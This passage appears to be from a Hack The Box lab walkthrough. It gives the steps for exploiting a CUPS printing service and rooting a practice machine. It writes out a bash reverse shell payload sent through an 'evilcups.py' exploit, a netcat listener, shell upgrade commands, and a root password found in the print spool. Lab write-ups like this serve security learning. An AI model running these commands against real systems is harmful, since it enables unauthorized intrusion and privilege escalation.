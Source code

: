 11. **`python3 evilcups.py 10.10.14.12 10.10.11.40 "nohup bash -c 'bash -i >& /dev/tcp/10.10.14.12/9001 0>&1' &"`**: This command executes the exploit, sending a reverse shell payload to the target. The payload instructs the target to connect back to your machine (10.10.14.12) on port 9001. `nohup` ensures the process stays running even if the session terminates, and `&` sends it to the background.
12. **`nc -lvnp 9001`**: In a new terminal, you start a Netcat listener on port 9001 to catch the reverse shell from the target machine.
13. **Navigate to `http://10.10.11.40:631/printers`**: You browse to the CUPS printers page to find the printer you exploited.
14. **Select `HACKED_10.10.14_8-3` and "Print Test Page"**: This sends a print job to the hacked printer, triggering the malicious code you injected, which opens the reverse shell.
15. **Shell acquired**: Once the print job is sent, you now have shell access to the target machine.
16. **`python3 -c 'import pty; pty.spawn("/bin/bash")'`**: You upgrade your shell to a full interactive shell using Python’s `pty` module.
17. **`ctrl + z`** and **`stty raw -echo;fg`**: This sequence resets your terminal settings to work properly with the upgraded shell and foregrounds the shell process.
18. **`export TERM=xterm`**: Sets the terminal type to `xterm`, which makes the shell behave properly in your terminal.
19. **`cd ~` and `cd /home`**: You navigate to the home directory of the target to look for user-related files.
20. **`ls` and `cd htb`**: Lists files in the home directory and changes to the directory where user data is stored (in this case, `htb`).
21. **`cat user.txt`**: This displays the user flag stored in the `user.txt` file.
22. **`cd /var/spool/cups/`**: You navigate to the CUPS spool directory to look for potentially useful files or logs.
23. **`cat d00001-001`**: Reads a file in the CUPS spool directory, possibly revealing sensitive information such as root credentials.
24. **`su -`** (and paste password **`Br3@k-G!@ss-r00t-evilcups`**: You use the obtained password to switch to the root user.

---

